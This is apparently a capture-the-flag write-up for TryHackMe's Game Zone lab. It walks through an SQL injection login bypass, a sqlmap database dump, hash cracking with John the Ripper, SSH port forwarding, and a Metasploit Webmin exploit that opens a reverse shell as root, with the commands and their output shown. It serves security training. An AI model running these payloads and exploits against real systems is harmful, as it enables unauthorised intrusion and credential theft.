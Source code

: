```yaml
---
title: "TryHackMe's Game Zone Room"
published: true
---
```


# TryHackMe's Game Zone Room

## Introduction

The Game Zone room on TryHackMe presents a learning experience for aspiring ethical hackers, simulating a real-world scenario of web application exploitation. This post will guide you through the key stages of the attack, from initial access to escalating privileges, showcasing practical techniques using tools like SQL injection, password cracking, and service exploitation.

Whether you're sharpening your pentesting skills or just getting started, this guide will help you understand the critical steps in compromising a vulnerable system, using the Game Zone room as a training ground. Let's dive in!

## Initial access

The room provides a web application at http://10.10.218.195/, we will login leveraging a sql injection vulnerability.
When a user tries to login the database receives a query similar to this:  
**SELECT \* FROM users WHERE username = :username AND password := password**  
We will use `' or 1=1 -- -` as the username and a empty password, so the query will look like this:  
**SELECT \* FROM users WHERE username = '' or 1=1 -- - AND password =**  
effectively becoming **SELECT \* FROM users WHERE username = '' or 1=1**  
The `'` closes username string and `-- -` is used to comment out what comes after it.  
The `1=1` forces the where clause to evaluate to true, this way we will login with the first user returned by the query.  
This allows us to login even if we don't know any valid username and if the classic 'admin' username is not present.

Next we will use **sqlmap** to dump the database.  
After logging in we reach a page with a search feature, type anything in the search box and capture the request with Burp.

![](../assets/images/tryhackme/offensive_pentesting/gamezone/webpage.png)

![](../assets/images/tryhackme/offensive_pentesting/gamezone/capture.png)

Then we save the request to a file.

![](../assets/images/tryhackme/offensive_pentesting/gamezone/capture2.png)

The following command uses our authenticated session, thanks to the request file, to detect vulnerabilities in order to dump the database.

```bash
root@ip-10-10-112-239:~/Downloads# sqlmap -r request.txt --dbms=mysql --dump
```

## Password cracking

In the database we obtained in the previous step there is a single user, we will use **John the Ripper** to crack the password hash of that user.  
Save the hash to a file (or use the file auto-generated by sqlmap) and run the following command.

```bash
john /tmp/sqlmapqflBjq6922/sqlmaphashes-7mItrA.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
```

Once you get the password, use it to ssh to the target machine:

```bash
root@ip-10-10-112-239:~/Downloads# ssh agent47@10.10.218.195
The authenticity of host '10.10.218.195 (10.10.218.195)' can't be established.
ECDSA key fingerprint is SHA256:mpNHvzp9GPoOcwmWV/TMXiGwcqLIsVXDp5DvW26MFi8.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.218.195' (ECDSA) to the list of known hosts.
agent47@10.10.218.195's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

109 packages can be updated.
68 updates are security updates.


Last login: Fri Aug 16 17:52:04 2019 from 192.168.1.147
agent47@gamezone:~$ whoami
agent47
```

Proceed to find the user flag

```bash
agent47@gamezone:~$ ls
user.txt
agent47@gamezone:~$ cat user.txt
[REDACTED]
```

## Exposing services

Looking for active services on the target machine we find an interesting one running on port 10000.

```bash
agent47@gamezone:~$  ss -tulpn
Netid State      Recv-Q Send-Q                                     Local Address:Port                                                    Peer Address:Port
udp   UNCONN     0      0                                                      *:68                                                                 *:*
udp   UNCONN     0      0                                                      *:10000                                                              *:*
tcp   LISTEN     0      80                                             127.0.0.1:3306                                                               *:*
tcp   LISTEN     0      128                                                    *:10000                                                              *:*
tcp   LISTEN     0      128                                                    *:22                                                                 *:*
tcp   LISTEN     0      128                                                   :::80                                                                :::*
tcp   LISTEN     0      128                                                   :::22                                                                :::*
```

Unfortunately this service is not directly accessible from our local machine, probably due to a firewall restricting access from the outside.  
Luckily we can get around the restriction with a nice trick: we use reverse ssh port forwarding.  
In particular, we will use **local port forwarding**: it allows a local computer (the client) to forward traffic to a remote server (through an SSH connection), making it seem as if the remote service is running on the local machine.

```bash
root@ip-10-10-112-239:~/Downloads# ssh -L 10000:localhost:10000 agent47@10.10.218.195
agent47@10.10.218.195's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

109 packages can be updated.
68 updates are security updates.


Last login: Sun Oct 13 05:06:08 2024 from 10.10.112.239
```

Let's break down the previous command:  
`-L` stands for local port forwarding  
`10000:localhost:10000` means that all traffic sent to the port 10000 of the localhost will be forwarded to the port 10000 of the remote machine, via the ssh tunnel

Now we can access the remote service on localhost, as if it was running locally.

![](../assets/images/tryhackme/offensive_pentesting/gamezone/exposed.png)

The service is a CMS, we can use the credentials found previously to log in.  
Once we are logged in we can easily find the CMS version.

If we did not have valid credentials we could have used nmap to find the CMS version.

```bash
root@ip-10-10-112-239:~/Downloads# nmap -sV -p 10000 localhost

Starting Nmap 7.60 ( https://nmap.org ) at 2024-10-13 11:40 BST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000052s latency).
Other addresses for localhost (not scanned): ::1

PORT      STATE SERVICE VERSION
10000/tcp open  http    MiniServ 1.580 (Webmin httpd)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.14 seconds
```

## Privilege escalation

Using the CMS version we can find a metasploit exploit that will elevate our privileges to root.

```bash
msf6 > search webmin 1.580

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/unix/webapp/webmin_show_cgi_exec     2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
   1  auxiliary/admin/webmin/edit_html_fileaccess  2012-09-06       normal     No     Webmin edit_html.cgi file Parameter Traversal Arbitrary File Access
```

Let's configure it:

```bash
msf6 > use 0
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set PASSWORD [REDACTED]
PASSWORD => [REDACTED]
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set USERNAME agent47
USERNAME => agent47
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set LHOST 10.10.112.239
LHOST => 10.10.112.239
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set ssl false
[!] Changing the SSL option's value may require changing RPORT!
ssl => false
```

As you can notice in this case the remote host is configured to be 127.0.0.1, because we access the service via our local ssh tunnel.  
Let's run the exploit.

```bash
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > exploit

[*] Started reverse TCP double handler on 10.10.112.239:4444
[*] Attempting to login...
[+] Authentication successful
[+] Authentication successful
[*] Attempting to execute the payload...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[+] Payload executed successfully
[*] Command: echo L5KJMMxnzUHRKmdf;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "L5KJMMxnzUHRKmdf\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (10.10.112.239:4444 -> 10.10.218.195:59412) at 2024-10-13 12:12:40 +0100

whoami
root
```

We now have root access and can retrieve the root flag.

```bash
cd /root
ls
root.txt
cat root.txt
[REDACTED]
```

That's it for this room, see you in the next one.  
Happy hacking!
